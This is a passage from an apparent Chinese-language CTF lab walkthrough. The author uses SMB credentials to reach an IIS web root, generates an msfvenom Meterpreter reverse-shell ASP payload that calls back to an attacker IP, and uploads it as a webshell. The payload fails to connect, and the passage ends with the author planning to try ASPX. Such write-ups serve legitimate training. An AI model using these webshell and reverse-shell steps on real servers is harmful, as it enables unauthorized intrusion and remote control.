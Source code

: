 ```bash
┌──(root㉿kali)-[/home/kali/temp/Simple]
└─# smbclient //172.20.10.4/WEB -U marcos 
Password for [WORKGROUP\marcos]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Oct  8 11:14:24 2023
  ..                                  D        0  Sun Oct  8 11:14:24 2023
  03-comming-soon                     D        0  Sun Oct  8 17:22:15 2023
  aspnet_client                       D        0  Sun Oct  8 15:46:18 2023
  common-js                           D        0  Sun Oct  8 17:14:09 2023
  fonts                               D        0  Sun Oct  8 17:14:09 2023
  images                              D        0  Sun Oct  8 17:14:09 2023
  index.html                          A     1481  Sun Oct  8 17:26:47 2023

                12966143 blocks of size 4096. 11127775 blocks available
smb: \>
```

可以看到是我们的web目录了，尝试上传webshell进行访问，因为是IIS服务器，尝试上传ASPX或者ASP的webshell！阔以使用kali自带的，也可以使用msf生成一个！

我们参考[hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom#reverse-shell-4)备忘录生成一个：

![image-20240408140236795](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404082007915.png)

```bash
┌──(root㉿kali)-[/home/kali/temp/Simple]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.20.10.8 LPORT=1234 -f asp >reverse.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of asp file: 37996 bytes

┌──(root㉿kali)-[/home/kali/temp/Simple]
└─# ls              
20231008.log  reverse.asp  user.txt

┌──(root㉿kali)-[/home/kali/temp/Simple]
└─# smbclient //172.20.10.4/WEB -U marcos 
Password for [WORKGROUP\marcos]:
Try "help" to get a list of possible commands.
smb: \> put reverse.asp 
putting file reverse.asp as \reverse.asp (340.4 kb/s) (average 340.4 kb/s)
```

本地设置监听以后，访问进行激活！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404082007916.png" alt="image-20240408140621335" style="zoom:50%;" />

shell也没有弹回来。。。。

试试aspx，忘了版本比较新了，估计是aspx。。。
